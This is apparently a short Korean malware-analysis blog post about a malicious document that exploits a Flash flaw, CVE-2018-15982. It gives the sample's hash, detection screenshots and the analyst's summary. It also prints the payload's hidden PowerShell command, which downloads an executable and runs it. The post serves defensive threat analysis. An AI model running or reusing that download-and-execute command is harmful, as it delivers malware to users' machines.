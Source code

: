 ```yaml
---
layout: post
title: MalShorts - CVE-2018-15982
subtitle: MalShorts
categories: Shorts
tags: [Shorts]
sidebar: []
---
```

### MalShorts : CVE-2018-15982
# MalShorts : CVE-2018-15982

### **멀웨어 정보**

SHA-256 : abf89220afcba53f4f9375e7bbee6495153be5bd623ad7218a9db00c877fc54a

Feature : #Exploit #CVE-2018-15982



### 주요 행위 및 분석가 한줄평

- 주요 행위
    - 문서 파일 열람 시 취약점을 악용한 플래시 파일이 실행되어 악성 행위 실행
- 실행되는 악성 행위
    - `C:\WINDOWS\system32\\WindowsPowerShell\v1.0\powershell.exe -WindowStyle Hidden (New-Object System.Net.WebClient).DownloadFile('http://127.0.0.1/putty.exe','mess.exe');cmd.exe /c mess.exe`
- 분석가 한줄평
    - 취약점을 악용한 플래시파일을 통해 악성 파워쉘 스크립트를 실행시키는 악성 문서파일



### **MARS Defender에서 추출한 위협 포인트**

![image-20231010-012550.png](/assets/images/MalShorts-CVE-2018-15982/image-20231010-012550.png){:style="border:1px solid #eaeaea; border-radius: 7px; padding: 0px;" }


### **MARS Defender 탐지 내역**

![image-20231010-012622.png](/assets/images/MalShorts-CVE-2018-15982/image-20231010-012622.png){:style="border:1px solid #eaeaea; border-radius: 7px; padding: 0px;" }


#### [MARSDefender 탐지 보고서(Link)](https://marsdefender.seculetter.com/?hash=abf89220afcba53f4f9375e7bbee6495153be5bd623ad7218a9db00c877fc54a)

